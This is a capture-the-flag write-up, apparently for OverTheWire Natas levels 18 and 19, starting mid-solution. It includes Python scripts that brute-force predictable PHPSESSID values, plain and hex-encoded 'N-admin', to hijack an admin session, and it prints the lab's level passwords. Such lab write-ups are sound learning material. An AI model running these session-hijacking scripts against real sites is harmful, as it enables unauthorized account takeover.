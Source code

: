 `$_SESSION["admin"] = isValidAdminLogin();` This command in the main function always set `$_SESSION["admin"] = 0.` --> There's no way that a new user typing username and password, then become admin.
--> `my_session_start()` must return true. 
But this function returns true when the `PHPSESSID` is contained in cookie that sent to server through requests. `PHPSESSID` is maybe admin's `session_id`. If we have this ID, we can 'borrow' admin privilege.
A user's `session_id` is random from 1 to 640 --> I can brute-force this number easily.

This is a short Python script to solve this task:
```python
import requests

url = 'http://natas18.natas.labs.overthewire.org/'
username = 'natas18'
password = '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ'

auth = requests.auth.HTTPBasicAuth(username, password)

for i in range(1, 641):
    cookies = {'PHPSESSID': str(i)}
    response = requests.get(url, auth=auth, cookies=cookies)
    if 'You are an admin' in response.text:
        print(i)
        break
```

![image](https://hackmd.io/_uploads/S1HS1Xh3kx.png)
I have found the `PHPSESSID` (session_id of an admin). Access to the website, change the value of the session cookie to 119, then refresh and retrieve the password.
![image](https://hackmd.io/_uploads/r1Bkgm3hJe.png)
**tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr**

## Level 19
![image](https://hackmd.io/_uploads/ryA9x7231l.png)
Mostly the same as level 18, but now the session_id is no longer sequential (not a random number between 1 and 640). 
Let's try login with some different random account to find out the formular of the session_id.
![image](https://hackmd.io/_uploads/H1I7-723kx.png)
This is a hex value: `3432322d6e6861746e616d`.
Converting to ascii: `422-nhatnam` (I have logged in with the username `nhatnam`).
--> The formular of the session_id is `X-username` with `X` is a random number (maybe) between 1 and 640.
Same approach like the previous level: brute-force the `X` number.
```python
import requests
import binascii

url = 'http://natas19.natas.labs.overthewire.org/'
username = 'natas19'
password = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'

auth = requests.auth.HTTPBasicAuth(username, password)

for i in range(100, 1000):
    cookies_hex = binascii.hexlify((str(i) + '-admin').encode()).decode()
    cookies = {'PHPSESSID': cookies_hex}
    response = requests.get(url, auth=auth, cookies=cookies)
    if 'You are an admin' in response.text:
        print(cookies_hex)
        break
```
